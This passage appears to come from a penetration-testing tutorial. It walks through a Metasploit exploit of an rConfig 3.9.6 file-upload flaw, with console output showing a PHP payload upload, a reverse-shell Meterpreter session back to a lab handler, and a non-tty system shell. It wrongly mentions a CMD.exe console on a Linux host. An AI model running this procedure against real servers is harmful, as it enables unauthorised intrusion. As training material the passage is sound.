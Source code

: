 With this exploit selected, we can list the options, input the proper settings specific to our network environment, and launch the exploit.

```shell
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```

We can see from the steps outlined in the exploitation process that this exploit :

- Checks for the vulnerable version of rConfig
- Authenticates with the rConfig web login
- Uploads a PHP-based payload for a reverse shell connection
- Deletes the payload
- Leaves us with a Meterpreter shell session

```shell
meterpreter > shell

Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg
```

We can drop into a system shell (`shell`) to gain access to the target system as if we were logged in and open a CMD.exe console.

When we drop into the system shell, we notice that no prompt is present, yet we can still issue some system commands. This is a shell typically referred to as a `non-tty shell`.
